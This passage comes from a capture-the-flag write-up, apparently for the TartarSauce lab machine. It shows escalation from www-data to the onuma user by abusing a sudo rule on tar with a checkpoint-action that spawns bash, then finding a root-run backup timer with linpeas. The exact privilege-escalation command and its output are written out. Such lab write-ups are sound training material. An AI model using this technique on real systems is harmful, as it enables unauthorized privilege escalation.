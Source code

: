 ### Privilege Escalation to onuma

However, we realize that we are still unable to obtain the user flag as we do not have the permissions to view the user.txt file in /home/onuma

```
www-data@TartarSauce:/home$ ls
ls
onuma
www-data@TartarSauce:/home$ cat onuma/user.txt
cat onuma/user.txt
cat: onuma/user.txt: Permission denied
```

Executing ```sudo -l```, we realized that we are able to run /bin/tar command as the onuma user. This means that we can privilege escalate to onuma via /bin/tar commands.

From GTFO bins, we can easily privilege escalate as the onuma users using tar commands.

```
www-data@TartarSauce:/home$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
onuma@TartarSauce:/home$ id 
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

### Obtaining user flag
```
onuma@TartarSauce:/home$ cat onuma/user.txt
cat onuma/user.txt
<Redacted user flag>
```
### Finding backuperer being executed in the background

From our linpeas script, we realize that there is a system timer that is being executed in the background. However, this is not being listed in the active processes from the script.

```                                                                                                                               
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES                                                                                         
Mon 2021-12-13 13:15:01 EST  2min 22s left Mon 2021-12-13 13:10:01 EST  2min 37s ago backuperer.timer             backuperer.service
service
```

We are also able to discover the location of the backuperer file from the linpeas script. From here, we can see that the file is being executed with root privileges.

```
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
```

